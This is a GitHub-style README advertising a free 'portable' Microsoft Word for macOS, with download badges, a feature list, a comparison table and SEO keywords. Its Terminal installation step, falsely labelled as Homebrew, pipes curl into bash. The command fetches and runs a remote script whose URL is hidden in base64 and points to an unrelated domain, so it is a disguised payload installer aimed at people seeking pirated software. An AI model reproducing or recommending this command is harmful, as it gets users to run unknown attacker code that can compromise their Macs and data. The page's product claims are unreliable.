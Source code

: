 # Microsoft Word for macOS – Portable Edition

📂 **Unzip the archive to a separate folder and run the .app file.**

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

🛠️ Installation (macOS Terminal)
To install the application via Terminal on macOS, follow these steps:

Option 1: Using Homebrew (recommended)

/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"

---
![Microsoft Word on Mac – UI](https://cdn.shopify.com/s/files/1/0329/9865/3996/t/5/assets/how_to_access_microsoft_word_on_mac-n4cxGv.True?v=1707900370)

![How to Get Word for Free on macOS](https://images.macworld.co.uk/cmsdata/features/3777812/how-to-get-microsoft-word-for-free-on-mac-online.png)

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

Microsoft Word for macOS is the industry-standard document editor, now optimized for portable use. Edit and format text, collaborate with others, and export to PDF — all in a clean, familiar interface made for Apple Silicon and Intel Macs.

---

## 🎯 Key Features

- Professional text editing with rich formatting  
- Real-time collaboration via OneDrive  
- Seamless cloud sync and auto-save  
- Wide variety of document templates  
- Smart spelling and grammar check  
- Dark Mode support for macOS  
- Export to PDF or other formats  
- Track changes and comments  
- Built-in citation and bibliography tools  
- Voice dictation and accessibility support  
- Supports .docx, .doc, .rtf, .txt, and more  
- Offline editing without limitations  
- Compatible with Microsoft 365 accounts  
- Native support for Apple Silicon (M1/M2/M3)  
- Integrates with Excel and PowerPoint  
- Drag-and-drop image and table tools  
- Automatic document recovery  
- Ribbon interface with customizable shortcuts  
- Supports printing and layout preview  
- Optimized for macOS Ventura and later  

| Feature / Editor                         | **Microsoft Word**    | Apple Pages   | Google Docs      | LibreOffice Writer | Ulysses / Bear |
| ---------------------------------------- | --------------------- | ------------- | ---------------- | ------------------ | -------------- |
| ✅ **Offline Editing**                    | ✔️ Full support       | ✔️            | ❌                | ✔️                 | ✔️             |
| 💾 **Export to PDF, DOCX, RTF, HTML**    | ✔️ All formats        | ✔️            | ⚠️ Limited       | ✔️                 | ⚠️ Markdown    |
| 🤝 **Real-Time Collaboration**           | ✔️ Via OneDrive       | ✔️ iCloud     | ✔️ Best-in-class | ⚠️ Limited         | ❌              |
| 🧠 **AI-Powered Suggestions**            | ✔️ Grammarly & Editor | ❌             | ✔️ Smart compose | ❌                  | ❌              |
| 🎨 **Advanced Formatting / Styles**      | ✔️ Professional       | ⚠️ Basic      | ⚠️ Basic         | ✔️ Decent          | ❌              |
| 📚 **Templates Library**                 | ✔️ Extensive          | ⚠️ Few        | ⚠️ Few           | ✔️ Basic           | ❌              |
| 🔒 **Document Protection / Track Edits** | ✔️ Full control       | ⚠️ Limited    | ⚠️ Partial       | ✔️ Basic           | ❌              |
| 🖨️ **Print Preview / Layout Mode**      | ✔️ WYSIWYG            | ✔️            | ❌                | ✔️                 | ❌              |
| 🧩 **Cross-Platform Compatibility**      | ✔️ macOS/Windows/iOS  | ✔️ macOS/iOS  | ✔️ Web only      | ✔️ All platforms   | macOS/iOS only |
| 🧬 **Apple Silicon Optimization**        | ✔️ Native support     | ✔️            | ✔️ (via browser) | ✔️                 | ✔️             |
| 🧑‍🎓 **Ideal for Education & Business** | ✔️ Top-tier choice    | ⚠️ Casual use | ✔️ Good online   | ⚠️ Basic           | ❌              |


---

## 💻 System Requirements

- **OS:** macOS 11.0 Big Sur or newer  
- **CPU:** Intel Core i5 / Apple M1 or better  
- **RAM:** 4 GB minimum  
- **Disk Space:** 2 GB available  
- **Internet:** Only for cloud sync or activation (optional)  
- **Note:** No Microsoft 365 subscription required for offline mode  

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

---

🔍 SEO Keywords
Microsoft Word macOS, Word portable Mac, download Word for Mac, Word app Apple Silicon, Word M1 M2 Mac, offline Word Mac, Word no subscription, Word for students Mac, document editor macOS, best Word processor Mac, Word export to PDF macOS, .docx editor macOS, Word compatible with Pages, Microsoft Office Mac, Word without Microsoft 365, Word dark mode Mac, smart formatting Mac Word, spellcheck macOS editor, grammar correction Mac app, Word free Mac alternative, portable Word macOS Ventura, Word Apple M3 support, edit documents offline Mac, standalone Word Mac, Word collaboration Mac, professional writing Mac, Word academic tools macOS
